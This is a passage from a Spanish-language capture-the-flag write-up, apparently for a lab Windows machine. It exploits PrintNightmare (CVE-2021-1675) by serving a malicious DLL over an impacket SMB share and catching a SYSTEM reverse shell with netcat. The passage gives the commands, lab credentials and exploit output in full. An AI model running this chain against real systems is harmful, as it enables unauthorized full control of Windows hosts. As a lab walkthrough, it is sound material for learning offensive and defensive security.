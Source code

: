 Luego, debemos abrir un servidor smb, utilizaremos `impacket`:

```
impacket-smbserver shares $(pwd) -smb2support
Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra
```

Luego, tenemos que dejar a nuestro `netcat` escuchando por el puerto elegido, en este caso el 4444.

En este punto debemos ejectuar el script con lo siguiente:
```
python3 CVE-2021-1675.py driver/tony:liltony@10.10.11.106 '\\10.10.14.17\shares\shell-x64.dll'
```

Con esta información ejecutamos el código:

```
python3 CVE-2021-1675.py driver/tony:liltony@10.10.11.106 '\\10.10.14.17\shares\shell-x64.dll'
[*] Connecting to ncacn_np:10.10.11.106[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.14.17\shares\shell-x64.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
```

Si observamos nuestro servidor smb:

```
mpacket-smbserver shares $(pwd) -smb2support
Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.106,49436)
[*] AUTHENTICATE_MESSAGE (\,DRIVER)
[*] User DRIVER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:shares)
[*] Disconnecting Share(1:IPC$)
```
Y si vemos nuestro `netcat`:
```
nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.106] 49440
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
